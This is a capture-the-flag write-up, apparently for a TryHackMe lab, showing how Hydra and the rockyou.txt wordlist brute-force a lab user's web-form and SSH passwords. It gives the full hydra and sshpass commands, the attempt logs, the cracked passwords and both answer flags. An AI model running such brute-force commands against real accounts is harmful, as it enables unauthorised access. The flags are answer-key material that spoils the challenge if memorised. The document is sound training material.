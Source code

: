# [Day 17] Hydra-ha-ha-haa

## Instructions

You suspect Elf Molly is communicating with the Christmas Monster. Compromise her accounts by brute forcing them!

Use Hydra to brute force Elf Molly's password. Use the rockyou.txt password list, which can be found [here](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt).

Supporting materials can be found [here](https://blog.tryhackme.com/hydra/).

This machine will take between 3-4 minutes to boot.

## #1 - Use Hydra to bruteforce molly's web password. What is flag 1? (The flag is mistyped, its THM, not TMH)

*Hint: If you've tried more than 30 passwords from RockYou.txt, you are doing something wrong!*

I'm not sure why the hint mentions that the password should be in the first 30 entries, because it was actually at line 905,678 of the rockyou.txt file :(

~~~
$ hydra -l molly -P rockyou.txt 10.10.112.172 http-post-form "/login:username=^USER^&password=^PASS^:incorrect" -V
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-05-03 18:56:32
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking http-post-form://10.10.112.172:80/login:username=^USER^&password=^PASS^&Login=Login:Your username or password is incorrect.
[ATTEMPT] target 10.10.112.172 - login "molly" - pass "123456" - 1 of 14344398 [child 0] (0/0)
[ATTEMPT] target 10.10.112.172 - login "molly" - pass "12345" - 2 of 14344398 [child 1] (0/0)
[ATTEMPT] target 10.10.112.172 - login "molly" - pass "123456789" - 3 of 14344398 [child 2] (0/0)
[ATTEMPT] target 10.10.112.172 - login "molly" - pass "password" - 4 of 14344398 [child 3] (0/0)
[ATTEMPT] target 10.10.112.172 - login "molly" - pass "iloveyou" - 5 of 14344398 [child 4] (0/0)
[ATTEMPT] target 10.10.112.172 - login "molly" - pass "princess" - 6 of 14344398 [child 5] (0/0)
[ATTEMPT] target 10.10.112.172 - login "molly" - pass "1234567" - 7 of 14344398 [child 6] (0/0)
[ATTEMPT] target 10.10.112.172 - login "molly" - pass "rockyou" - 8 of 14344398 [child 7] (0/0)
[ATTEMPT] target 10.10.112.172 - login "molly" - pass "12345678" - 9 of 14344398 [child 8] (0/0)
[ATTEMPT] target 10.10.112.172 - login "molly" - pass "abc123" - 10 of 14344398 [child 9] (0/0)
[ATTEMPT] target 10.10.112.172 - login "molly" - pass "nicole" - 11 of 14344398 [child 10] (0/0)
[ATTEMPT] target 10.10.112.172 - login "molly" - pass "daniel" - 12 of 14344398 [child 11] (0/0)
[ATTEMPT] target 10.10.112.172 - login "molly" - pass "babygirl" - 13 of 14344398 [child 12] (0/0)
[ATTEMPT] target 10.10.112.172 - login "molly" - pass "monkey" - 14 of 14344398 [child 13] (0/0)
[ATTEMPT] target 10.10.112.172 - login "molly" - pass "lovely" - 15 of 14344398 [child 14] (0/0)
[ATTEMPT] target 10.10.112.172 - login "molly" - pass "jessica" - 16 of 14344398 [child 15] (0/0)
[ATTEMPT] target 10.10.112.172 - login "molly" - pass "654321" - 17 of 14344398 [child 0] (0/0)
...
[SNIP]
...
[80][http-post-form] host: 10.10.112.172   login: molly   password: joyness1994
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-05-03 19:06:06
~~~

When we connect with `molly` and `joyness1994` respectively for the username and password, we can see the flag:

~~~
THM{2673a7dd116de68e85c48ec0b1f2612e}
~~~

## #1 - Use Hydra to bruteforce molly's SSH password. What is flag 2?

~~~
$ hydra -l molly -P /data/downloads/rockyou.txt 10.10.112.172 -t 4 ssh -V
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-05-03 19:16:01
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344398 login tries (l:1/p:14344398), ~3586100 tries per task
[DATA] attacking ssh://10.10.112.172:22/
[ATTEMPT] target 10.10.112.172 - login "molly" - pass "123456" - 1 of 14344398 [child 0] (0/0)
[ATTEMPT] target 10.10.112.172 - login "molly" - pass "12345" - 2 of 14344398 [child 1] (0/0)
[ATTEMPT] target 10.10.112.172 - login "molly" - pass "123456789" - 3 of 14344398 [child 2] (0/0)
[ATTEMPT] target 10.10.112.172 - login "molly" - pass "password" - 4 of 14344398 [child 3] (0/0)
[ATTEMPT] target 10.10.112.172 - login "molly" - pass "iloveyou" - 5 of 14344398 [child 0] (0/0)
[ATTEMPT] target 10.10.112.172 - login "molly" - pass "princess" - 6 of 14344398 [child 2] (0/0)
[ATTEMPT] target 10.10.112.172 - login "molly" - pass "1234567" - 7 of 14344398 [child 1] (0/0)
[ATTEMPT] target 10.10.112.172 - login "molly" - pass "rockyou" - 8 of 14344398 [child 3] (0/0)
[ATTEMPT] target 10.10.112.172 - login "molly" - pass "12345678" - 9 of 14344398 [child 0] (0/0)
[ATTEMPT] target 10.10.112.172 - login "molly" - pass "abc123" - 10 of 14344398 [child 2] (0/0)
[ATTEMPT] target 10.10.112.172 - login "molly" - pass "nicole" - 11 of 14344398 [child 1] (0/0)
[ATTEMPT] target 10.10.112.172 - login "molly" - pass "daniel" - 12 of 14344398 [child 3] (0/0)
[ATTEMPT] target 10.10.112.172 - login "molly" - pass "babygirl" - 13 of 14344398 [child 0] (0/0)
[ATTEMPT] target 10.10.112.172 - login "molly" - pass "monkey" - 14 of 14344398 [child 2] (0/0)
[ATTEMPT] target 10.10.112.172 - login "molly" - pass "lovely" - 15 of 14344398 [child 1] (0/0)
[ATTEMPT] target 10.10.112.172 - login "molly" - pass "jessica" - 16 of 14344398 [child 3] (0/0)
[ATTEMPT] target 10.10.112.172 - login "molly" - pass "654321" - 17 of 14344398 [child 0] (0/0)
[ATTEMPT] target 10.10.112.172 - login "molly" - pass "michael" - 18 of 14344398 [child 1] (0/0)
[ATTEMPT] target 10.10.112.172 - login "molly" - pass "ashley" - 19 of 14344398 [child 2] (0/0)
[ATTEMPT] target 10.10.112.172 - login "molly" - pass "qwerty" - 20 of 14344398 [child 3] (0/0)
[ATTEMPT] target 10.10.112.172 - login "molly" - pass "111111" - 21 of 14344398 [child 0] (0/0)
[ATTEMPT] target 10.10.112.172 - login "molly" - pass "iloveu" - 22 of 14344398 [child 2] (0/0)
[ATTEMPT] target 10.10.112.172 - login "molly" - pass "000000" - 23 of 14344398 [child 1] (0/0)
[ATTEMPT] target 10.10.112.172 - login "molly" - pass "michelle" - 24 of 14344398 [child 3] (0/0)
[ATTEMPT] target 10.10.112.172 - login "molly" - pass "tigger" - 25 of 14344398 [child 2] (0/0)
[ATTEMPT] target 10.10.112.172 - login "molly" - pass "sunshine" - 26 of 14344398 [child 3] (0/0)
[ATTEMPT] target 10.10.112.172 - login "molly" - pass "chocolate" - 27 of 14344398 [child 0] (0/0)
[ATTEMPT] target 10.10.112.172 - login "molly" - pass "password1" - 28 of 14344398 [child 1] (0/0)
[ATTEMPT] target 10.10.112.172 - login "molly" - pass "soccer" - 29 of 14344398 [child 1] (0/0)
[ATTEMPT] target 10.10.112.172 - login "molly" - pass "anthony" - 30 of 14344398 [child 3] (0/0)
[ATTEMPT] target 10.10.112.172 - login "molly" - pass "friends" - 31 of 14344398 [child 0] (0/0)
[ATTEMPT] target 10.10.112.172 - login "molly" - pass "butterfly" - 32 of 14344398 [child 2] (0/0)
[22][ssh] host: 10.10.112.172   login: molly   password: butterfly
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-05-03 19:16:55
~~~

We find a valid password (`butterfly`) for user `molly`. Let's get the flag:

~~~
$ sshpass -p butterfly ssh molly@10.10.112.172 cat flag2.txt
THM{c8eeb0468febbadea859baeb33b2541b}
~~~
